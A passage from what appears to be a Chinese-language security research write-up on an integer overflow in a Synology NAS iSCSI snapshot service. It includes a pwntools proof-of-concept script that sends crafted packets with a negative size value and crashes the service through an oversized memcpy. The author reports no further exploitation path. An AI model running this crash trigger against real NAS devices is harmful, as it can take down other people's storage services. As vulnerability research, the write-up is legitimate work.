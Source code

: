 ```python
	pd = '\x20\x01'+'\x00'*0x22+udx+'\x00'*(0x4c-0x24-len(udx))+p32(0x2000)
	s.send(pd)

	s.send('1')
	s.recv(1024)

```

调用`AppSendControl`函数的地方下断点

![](https://tva1.sinaimg.cn/large/008i3skNly1gqy56flqvpj30k80mw774.jpg)

（但是由于`PacketWrite`函数中限制了第二次读取报文长度最大为0x1000字节，并且发送的目标只能是`iscsi_snapshot_server`进程，所以暂时并没有想到如何进行利用）

如果控制size+0x54为负数，即可以复现[BugHuntinginSynologyNAS.pdf](https://edu.heibai.org/BugHuntinginSynologyNAS.pdf)中展示的整数溢出

poc.py：

```python
from pwn import *
import socket
import uuid

name = 'ISS-SERVER-'
for i in range(20000):
	s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('172.20.10.10', 3262))
	udx = name + str(i)
	print("[+]try " + udx)
	pd = p64(0x18060e0b0e0d1812)+p32(0x24+len(udx)+0x19+0x4)*6
	s.send(pd)
	pd = '\x20\x01'+'\x00'*0x22+udx+'\x00'*(0x4c-0x24-len(udx))+p32(0xFFFFFF94)
	s.send(pd)

	s.send('1')
	s.recv(1024)

```

调用`AppSendControl`函数的地方下断点

![](https://tva1.sinaimg.cn/large/008i3skNly1gqy5d0ic8aj30k70nzjug.jpg)

```
continue
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gqy5d5643jj30kc0pyjvc.jpg)

crash的原因应该是`memcpy`函数复制的size太大，访问到不存在的地址造成了段错误

然而并没有想到利用的方法，应该需要与其他漏洞结合完成利用


